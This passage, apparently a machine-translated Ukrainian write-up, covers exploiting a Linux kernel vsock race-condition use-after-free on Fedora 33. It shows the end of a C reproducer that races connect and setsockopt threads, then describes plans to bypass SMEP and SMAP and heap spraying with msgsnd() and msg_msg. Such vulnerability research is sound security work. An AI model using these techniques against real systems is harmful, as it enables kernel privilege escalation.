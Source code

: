             ret = pthread_create(&th[0], NULL, th_connect, &tmo1);
            if (ret != 0)
                err_exit("[-] pthread_create #0");

            ret = pthread_create(&th[1], NULL, th_setsockopt, &tmo2);
            if (ret != 0)
                err_exit("[-] pthread_create #1");

            ret = pthread_join(th[0], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join #0");

            ret = pthread_join(th[1], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join #1");

            if (tfail) {
                printf("[-] some thread got troubles\n");
                exit(EXIT_FAILURE);
            }
        }

        ret = close(vsock);
        if (ret)
            perror("[-] close");

        printf("[+] now see your warnings in the kernel log\n");
        return 0;
    }

Значення розміру тут береться з кількості наносекунд, повернутих ` clock_gettime () `, яка може різнитися кожного разу. Оригінальний syzkaller цього не робить, оскільки коли syzkaller генерує нечіткий вхід, значення параметра syscall визначається і не буде змінюватися під час виконання.

Ступінь чотирьох байт
---------------------

Тут я вибираю сервер Fedora 33 як ціль дослідження, версія ядра - 5.10.11-200.fc33.x86_64, і я твердо вирішив обійти SMEP та SMAP.

На першому кроці я почав вивчати стабільне розпилення купи, яке використовувало виконання просторових дій користувача, щоб змусити ядро ​​виділити ще один 64-байтовий об'єкт у розташуванні звільненого virtio_vsock_sock. Після кількох експериментальних спроб було підтверджено, що випущений virtio_vsock_sock був перезаписаний, вказуючи на те, що обприскування купи можливо. Нарешті я знайшов msgsnd () syscall. Він створює struct msg_msg у просторі ядра, див. Вивід pahole:

    struct msg_msg {
        struct list_head           m_list;               /*     0    16 */
        long int                   m_type;               /*    16     8 */
        size_t                     m_ts;                 /*    24     8 */
        struct msg_msgseg *        next;                 /*    32     8 */
        void *                     security;             /*    40     8 */

        /* size: 48, cachelines: 1, members: 5 */
        /* last cacheline: 48 bytes */
    };
